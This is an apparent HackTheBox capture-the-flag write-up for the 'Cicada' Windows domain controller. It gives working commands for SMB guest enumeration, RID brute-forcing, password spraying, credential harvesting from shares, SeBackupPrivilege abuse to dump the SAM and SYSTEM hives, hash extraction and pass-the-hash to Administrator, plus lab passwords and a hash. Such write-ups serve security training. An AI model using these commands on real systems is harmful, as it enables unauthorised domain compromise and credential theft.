



<h1><ins>HackTheBox: Cicada Writeup</ins></h1>

**Date:** 12/10/2024\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Cicada\
**Difficulty:** Easy\
**Link to Machine:** [HackTheBox - Cicada (Easy)](https://app.hackthebox.com/machines/Cicada)

> `Note: If you see "$IP" in my commands, it is referring to the target machines IP address. For this box it was "10.10.11.35"`

## Reconaissance
### NMAP Scan
```
Nmap scan report for 10.10.11.35
Host is up (0.048s latency).
Not shown: 65521 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-17 00:28:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49308/tcp open  msrpc         Microsoft Windows RPC
62861/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-17T00:29:27
|_  start_date: N/A
|_clock-skew: 7h00m02s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```
From this NMAP scan, I saw a few things. The first being that this machine was the Domain Controller (DC) for the domain `cicada.htb`, LDAP leaked the FQDN of the DC, `CICADA-DC.cicada.htb`, and that there was a `clock-skew` of 7 hours!

> Add `cicada.htb` and `CICADA-DC.cicada.htb` to the **/etc/hosts** file.

### Sync with the DC
The first step was to sync my machine time with the DC's time to make sure that any interactions with the target go smoothly.

> Domain Controllers are very picky when it comes to being out of sync with them, especially when it comes to `Kerberos Authentication`.

`sudo timedatectl set-ntp off`\
`sudo rdate -n CICADA-DC.cicada.htb`

### SMB Enumeration
Seeing from the NMAP scan that SMB was open, I attempted to list the shares by authenticating using the `Guest` account (which *should* be disabled for security), using `SMBMap`.

`smbmap -H $IP -u 'Guest'`



There were a few things I noticed from this. One being the **"DEV"** and **"HR"** shares, which are not standard SMB shares, and the second being that the **IPC$** share was **Read Only** which allows me to perform an attack called **rid-bruting** to enumerate through **SIDs** to find any valid user accounts.

#### Diving into the HR Share
Switching over to `smbclient` to delve into the **HR** share, I ran the command 
`smbclient //$IP/HR --no-pass` to connect to it whilst authenticating using the **Guest** account with no password.


There was only 1 file in there named **"Notice from HR.txt"**, so I downloaded it using the `get` command in `smbclient`.

After it downloaded, I opened the file to see this:
```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

So, I now had a password but no username to use it with. However, this is where the `rid-bruting` comes into play.

### RID Bruteforcing
Running the command `nxc smb $IP -u 'Guest' -p '' --rid-brute` I was able to get a list of all of the accounts in the domain.



I only want user accounts though, so I simply appended this extra bit onto the end of the command to filter out the rest of the unnecessary information:\
`| grep SidTypeUser | cut -d: -f2 | cut -d \\ -f2 | cut -d' ' -f1 > users.lst`

This saves the list of the user accounts into a file named **users.lst**.

This was the list of usernames I ended up with:
```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
$DUPLICATE-453
david.orelious
emily.oscars
```

## Compromising User Accounts
### Password Spraying
Now equipped with a list of valid user accounts and knowing the default account password from the note in the **HR** share, I performed a **password spray** to attempt to authenticate to SMB using the password for each of the user accounts in the list.

`nxc smb $IP -u ./users.lst -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success`


The password spray found 1 account using the default password: `michael.wrightson`

### Lateral Movement
Now having the username and password for a valid domain user, I used the credentials to gather information about other users.

`nxc smb $IP -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users`


I spotted that for the user **david.orelious** there was a note saying `"Just in case I forget my password is aRt$Lp#7t*VQ!3"`. Great, another password for another user!

I first attempted to login to machine via `winrm` with the new credentials, however that did not work. So my next step was to authenticate to SMB using the credentials to see if **david.orelious** could access any other shares.

`smbmap -H $IP -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'`



I spotted that **david.orelious** has **READ ONLY** access to the **DEV** share so I swapped over to `smbclient` to see what files were in there.

`smbclient //$IP/DEV -U 'david.orelious' --password='aRt$Lp#7t*VQ!3'`

There was a single file in there named **Backup_script.ps1**, so I downloaded it using the `get` command and opened the file.

```
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

It revealed another username (**emily.oscars**) and password (**Q!3@Lp#M6b*7t*Vt**)!

## Machine Access and Privilege Escallation
My first step was to try use the new username and password to login via winrm, and it worked!


Finally, access to the machine. Now for privilege escallation, the first thing to do is find out what privileges **emily.oscars** has by running the command `whoami /priv`.


I immediately spotted that this user has `SeBackupPrivilege` which allows the user to basically create a copy of any file on the machine, this includes the **SAM** and **SYSTEM** registry files which can be used to get the hashes for all of the local users on the machine.

After finding this, I created a temporary directory in `C:\` called `temp` where I would copy the files to, download them to my local machine for processing, and then delete the files and the directory to cover my tracks.

> It is possible to copy the files to anywhere on the machine, as long as the user has access to it.

After that, I chanegd directory into `C:\temp` and ran the commands:
```
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
```
This copied the files to my temporary directory where I then used the `download` command built into **evil-winrm** to download the files to my local machine.


After downloading the files, I used a tool named `pypykatz` to extract the account hashes.

`pypykatz registry --sam ./sam ./system`


The piece of information I wanted was this line:\
`Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::`

This contains the hash for the **Administrator** user which I can use to perform a **Pass-the-Hash** attack to login to winrm.

**Hash: `2b87e7c93a3e8a0ea4a581937016f341`**

I then closed the winrm connection as **emily.oscars** and ran this command to login as **Administrator**.

```
evil-winrm -i $IP -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```


After logging in, I was able to retrieve the root flag from the Desktop of the **Administrator** account and complete this box.